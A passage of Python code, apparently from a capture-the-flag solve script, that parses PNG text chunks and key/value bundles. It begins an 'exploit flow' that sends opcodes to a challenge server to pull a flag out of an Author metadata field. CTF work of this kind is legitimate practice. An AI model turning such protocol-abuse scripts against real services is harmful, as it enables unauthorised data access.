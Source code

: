 ```python
        length = int.from_bytes(payload[off : off + 4], "big")
        ctype = payload[off + 4 : off + 8]
        off += 8
        if off + length + 4 > len(payload):
            break
        data = payload[off : off + length]
        off += length
        crc = payload[off : off + 4]
        off += 4
        if ctype == b"tEXt":
            try:
                if b"\x00" in data:
                    key, value = data.split(b"\x00", 1)
                    k = key.decode("latin-1", errors="ignore")
                    v = value.decode("latin-1", errors="ignore")
                    if k:
                        out[k] = v
            except Exception:
                pass
        if ctype == b"IEND":
            break
    return out


def parse_kv_payload(payload: bytes) -> Dict[str, str]:
    """Best-effort parse of a key/value bundle produced by opcode 0x32.

    The server serializes a small structure with fields like "Author", "Comment",
    and "Software" using an internal container format. We conservatively scan the
    payload for printable tokens and map well-known keys to the token that follows.
    """
    # First, handle PNG tEXt-encoded bundles, which the server commonly emits
    # (Author/Software are stored as PNG text chunks).
    png = parse_png_text_chunks(payload)
    if png:
        return png

    tokens = tokenize_printables(payload)
    keys = {b"Author", b"Comment", b"Software"}
    out: Dict[str, str] = {}
    for i, tok in enumerate(tokens):
        # Allow cases like 'tEXtAuthor' by checking substring containment
        matched_key: Optional[bytes] = None
        for k in keys:
            if tok == k or (k in tok):
                matched_key = k
                break
        if matched_key and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = matched_key.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=1.1)  # ignore 1-byte ack if present
```